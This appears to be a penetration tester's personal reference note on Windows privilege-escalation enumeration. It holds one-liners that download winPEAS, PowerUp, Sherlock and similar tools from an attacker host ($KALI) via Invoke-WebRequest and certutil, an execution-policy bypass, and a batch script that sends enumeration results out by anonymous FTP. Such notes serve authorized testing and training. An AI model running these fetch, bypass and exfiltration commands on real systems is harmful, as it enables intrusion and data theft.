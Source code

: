 ```yaml
---
category: Uncategorized
tags: []
---
```

| PS Tools | WinPEAS | Seatbelt3 | Seatbelt4 |
| -------------- | -------------- | -------------- | -------------- |
| Sherlock.ps1  | winPEAS.bat | SeatbeltNet3.5AnyCPU.exe | SeatbeltNet4AnyCPU.exe |
| PowerUp.ps1 | winPEASany.exe | SeatbeltNet3.5x64.exe | SeatbeltNet4x64.exe |
| jaws-enum.ps1 | winPEASx64.exe | SeatbeltNet3.5x86.exe | SeatbeltNet4x86.exe |
|  | winPEASx86.exe |  |  |


Do you have RDP access? [[Port 3389 - RDP ~]]

#### Download to Kali
Kali:
```bash - kali
wget https://github.com/carlospolop/PEASS-ng/releases/download/20220220/winPEAS.bat && wget https://github.com/carlospolop/PEASS-ng/releases/download/20220220/winPEASany.exe && wget https://github.com/carlospolop/PEASS-ng/releases/download/20220220/winPEASx64.exe && wget https://github.com/carlospolop/PEASS-ng/releases/download/20220220/winPEASx86.exe && wget https://raw.githubusercontent.com/411Hall/JAWS/master/jaws-enum.ps1 && wget https://raw.githubusercontent.com/rasta-mouse/Sherlock/master/Sherlock.ps1 && wget https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1 && wget https://raw.githubusercontent.com/AonCyberLabs/Windows-Exploit-Suggester/master/windows-exploit-suggester.py && wget https://raw.githubusercontent.com/itm4n/PrivescCheck/master/PrivescCheck.ps1
```

#### AutoUpload.bat - ==REMEMBER TO CHANGE $KALI TO IP!==

```bash - kali
echo $KALI
```

```bash - kali
mousepad AutoUpload.bat
```

```powershell - windows
@echo off

echo anonymous> upload.txt
echo anonymous>> upload.txt
echo binary>>upload.txt

echo put JAWS-Enum.txt >> upload.txt
echo put PowerUp.txt >> upload.txt
echo put Sherlock.txt >> upload.txt
echo put winPEASx64.txt >> upload.txt
echo put systeminfo.txt >> upload.txt
echo put PrivescCheck.txt >> upload.txt

echo quit >> upload.txt

ftp -s:upload.txt $KALI

del upload.txt
```

![[TechLexicon/Penetration Testing/Reference/7._Tools/Python#Server]]

#### Transfer to target - PowerShell - ==REMEMBER TO CHANGE $KALI TO IP!==

Check to see if you have PowerShell access:

```command prompt - windows
where /r C:\Windows powershell.exe
```

May need to run PowerShell with full path.

#### Bypass execution policy
```command prompt - windows
powershell -ep bypass
```

```powershell - windows
cd $env:TEMP; mkdir Tools; cd Tools; Invoke-WebRequest -Uri 'http://$KALI/winPEAS.bat' -OutFile winPEAS.bat; Invoke-WebRequest -Uri 'http://$KALI/winPEASany.exe' -OutFile winPEASany.exe; Invoke-WebRequest -Uri 'http://$KALI/winPEASx64.exe' -OutFile winPEASx64.exe; Invoke-WebRequest -Uri 'http://$KALI/winPEASx86.exe' -OutFile winPEASx86.exe; Invoke-WebRequest -Uri 'http://$KALI/Sherlock.ps1' -OutFile Sherlock.ps1; Invoke-WebRequest -Uri 'http://$KALI/PowerUp.ps1' -OutFile PowerUp.ps1; Invoke-WebRequest -Uri 'http://$KALI/jaws-enum.ps1' -OutFile jaws-enum.ps1; Invoke-WebRequest -Uri 'http://$KALI/PrivescCheck.ps1' -OutFile PrivescCheck.ps1; Invoke-WebRequest -Uri 'http://$KALI/AutoUpload.bat' -OutFile AutoUpload.bat
```

#### Transfer to target - CMD  - ==REMEMBER TO CHANGE $KALI TO IP!==
```command prompt - windows
mkdir %TEMP%\Tools && cd %TEMP%\Tools && certutil -urlcache -split -f http://$KALI/winPEAS.bat && certutil -urlcache -split -f http://$KALI/winPEASany.exe && certutil -urlcache -split -f http://$KALI/winPEASx64.exe && certutil -urlcache -split -f http://$KALI/winPEASx86.exe && certutil -urlcache -split -f http://$KALI/Sherlock.ps1 && certutil -urlcache -split -f http://$KALI/PowerUp.ps1 && certutil -urlcache -split -f http://$KALI/jaws-enum.ps1 && certutil -urlcache -split -f http://$KALI/PrivescCheck.ps1 && certutil -urlcache -split -f http://$KALI/AutoUpload.bat
```

#### Execute tools 
```powershell - winodws
reg add HKCU\Console /v VirtualTerminalLevel /t REG_DWORD /d 1; systeminfo > systeminfo.txt; . .\Sherlock.ps1; Find-AllVulns > Sherlock.txt; . .\PowerUp.ps1; Invoke-AllChecks > PowerUp.txt; .\jaws-enum.ps1 -OutputFilename JAWS-Enum.txt; .\winPEASx64.exe > winPEASx64.txt; . .\PrivescCheck.ps1; Invoke-PrivescCheck -Extended > PrivescCheck.txt
```

#### Start FTP server and upload results

[[TechLexicon/Penetration Testing/Reference/7._Tools/Python#FTP Server]]

```powershell - windows
cmd /c "AutoUpload.bat"
```

#### windows-exploit-suggester.py
AutoUpload will have uploaded the systeminfo.txt file to kali through FTP.

```bash - kali
chmod +x windows-exploit-suggester.py
```

```bash - kali
sudo ./windows-exploit-suggester.py --update
```

```bash - kail
pip install xlrd --upgrade
```

If pip is not installed:
[[TechLexicon/Penetration Testing/Reference/7._Tools/Python#Install pip]]

![[Pasted image 20221110100601.png]]

From the above image, we need the "2022-02-03-mssb.xls" file:

```bash - kail
sudo ./windows-exploit-suggester.py --database 2022-02-04-mssb.xls --systeminfo systeminfo.txt
```

[[3._Kernel Exploits]]
